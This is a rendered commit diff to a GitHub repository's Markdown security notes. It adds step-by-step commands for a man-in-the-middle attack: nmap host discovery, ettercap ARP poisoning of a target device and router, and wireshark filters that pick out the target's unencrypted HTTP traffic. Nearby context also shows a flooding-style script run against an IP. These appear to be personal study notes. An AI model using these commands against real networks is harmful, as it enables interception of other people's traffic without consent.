

Before and after one commit to florist-notes/linux_d, a Markdown page: notes/SECURITY.MD, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
linux sec

```diff
--- a/notes/SECURITY.MD
+++ b/notes/SECURITY.MD
@@ -425,6 +425,15 @@ $ python saphyra.py http://10.7.1.50 <br />
 <th>SNiFF network traffic (MiTM attack)</th>
 <td>any device network traffic<br /></td>
 <td>
+use wireshark <br />
+ARP Poisoning with ettercap: (Man in the middle and then wireshark)<br />
+$ apt install wireshark <br />
+$ apt install nmap <br />
+$ apt install ettercap-text-only <br />
+$ sudo nmap -sn 10.0.0.0/24 (start scanning the network for ip addresses of devices) <br />
+$ sudo ettercap -T -S i wlan0 -M arp:remote /10.0.0.1// /10.0.0.129//(S = SSL, 10.0.0.1 is router and 10.0.0.129 is the target, then use wireshark to sniff ) <br />
+In wireshark: ip.addr == 10.0.0.129 <br />
+ip.addr == 10.0.0.129 && http (to filter no SSL cert destination ip from target device)
 
 <br /></td>
 </tr>
```
